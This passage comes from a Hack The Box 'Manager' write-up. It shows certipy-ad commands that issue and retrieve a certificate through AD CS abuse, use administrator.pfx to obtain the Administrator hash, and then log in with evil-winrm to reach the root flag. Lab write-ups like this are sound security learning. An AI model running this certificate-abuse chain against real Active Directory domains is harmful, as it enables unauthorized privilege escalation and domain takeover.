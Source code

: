 {% code overflow="wrap" %}
```bash
certipy-ad ca -ca $ca -username $user -password $password -issue-request <CHANGE-WITH-PREVIOUS-ISSUE-REQUEST-GENERATED> 
```
{% endcode %}

{% code overflow="wrap" %}
```bash
certipy-ad req -username $user -password $password -ca $ca -target manager.htb -retrieve <CHANGE-WITH-PREVIOUS-ISSUE-REQUEST-GENERATED>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (338).png" alt=""><figcaption></figcaption></figure>

### Obtaining Administrator Hash

```bash
certipy-ad auth -pfx administrator.pfx  -dc-ip 10.10.11.236
```

<figure><img src="../../.gitbook/assets/image (339).png" alt=""><figcaption></figcaption></figure>

After successfully obtaining the Administrator hash, I used it to log in with elevated privileges. I utilized the hash as a password to connect to the system using `evil-winrm`. This allowed me to access the system as the administrator, granting me root-level privileges. As a result, I was able to easily retrieve the root flag:
